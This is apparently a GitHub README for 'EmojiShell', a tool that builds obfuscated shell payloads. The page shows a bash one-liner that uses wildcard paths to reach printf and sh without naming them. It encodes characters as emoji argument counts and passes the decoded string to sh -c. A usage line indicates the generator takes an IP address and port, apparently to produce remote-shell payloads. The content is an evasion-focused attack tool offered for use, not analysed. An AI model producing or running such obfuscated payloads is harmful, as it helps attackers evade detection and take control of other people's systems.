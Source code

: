 <center><br><h1>EmojiShell</h1><br></center>
<center><h5>🤑(){ /??r/??n/?r?nt? ${@};};💰(){ 🤑 ${#};};💻(){ /??n/?h -c "${@}";};B=$(🤑 "\\`💰 💢``💰 ㊙ ㊙ ㊙ ㊙``💰 🖤 🖤 🖤 🖤 🖤`\\`💰 🧫``💰 😵 😵 😵 😵``💰 🦠 🦠 🦠`\\`💰 ♻``💰 😱 😱 😱 😱 😱``💰`\\`💰 ㊙``💰 📺 📺 📺 📺 📺``💰 😱 😱 😱 😱 😱 😱 😱`\\`💰 🧫 🧫 🧫 🧫``💰`\\`💰 🔓 🔓 🔓 🔓``💰 🕷 🕷`\\`💰 🦠``💰 🔥``💰`\\`💰 ☄``💰 ☮ ☮ ☮ ☮``💰 🖪`\\`💰 ㊙``💰 👽 👽 👽 👽``💰 🎈 🎈 🎈`\\`💰 ☄``💰 👽 👽 👽 👽 👽``💰 🍄 🍄 🍄`\\`💰 🔑 🔑 🔑 🔑``💰`\\`💰 👻``💰 💫 💫``💰 🎵 🎵 🎵 🎵`\\`💰 💢``💰 ㊙ ㊙ ㊙ ㊙ ㊙``💰`\\`💰 👻``💰 🥳 🥳 🥳 🥳``💰 💣 💣 💣 💣 💣`\\`💰 📺 📺 📺 📺``💰`\\`💰 🔒``💰 🎶 🎶``💰`\\`💰 🐸``💰 ☣ ☣ ☣ ☣ ☣``💰 💻 💻 💻 💻`\\`💰 🦠``💰 📡 📡 📡 📡``💰 ⚛`\\`💰 🧫``💰 🖪 🖪 🖪 🖪 🖪``💰 🎊 🎊 🎊 🎊 🎊 🎊`\\`💰 🤑``💰 👾 👾 👾 👾``💰 🐸 🐸 🐸 🐸 🐸`\\`💰 ♻``💰 ♻ ♻ ♻ ♻ ♻ ♻``💰 🎵 🎵 🎵 🎵`\\`💰 👾 👾 👾 👾``💰 🎵`\\`💰 💻 💻 💻 💻``💰 ☄ ☄`\\`💰 💔 💔 💔 💔 💔 💔 💔``💰 🧪 🧪 🧪`");💻 "${B}";</h5><br></center>
<br>
<code>[m4x@lab:~]$ python emojishell.py</code>
<code>Usage: emojishell.py {IP address} {Port} {Output Filename}</code<br>

